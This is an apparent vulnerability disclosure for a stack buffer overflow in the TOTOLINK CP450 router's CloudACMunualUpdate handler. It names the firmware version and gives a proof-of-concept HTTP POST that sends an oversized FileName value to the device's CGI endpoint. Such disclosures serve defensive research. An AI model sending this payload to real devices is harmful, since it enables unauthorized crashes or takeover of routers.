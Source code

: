 ## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `CloudACMunualUpdate`, attackers can post the parameter `FileName` to `v10` without checking its' length. 

![image-20240421163827190](./img/1.png)

Then in line 43, the call to function `strcpy` will lead to stack overflow.

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 762
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/cloud_update.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/CloudACMunualUpdate",
    "FileName": "a"*0x300
}
```
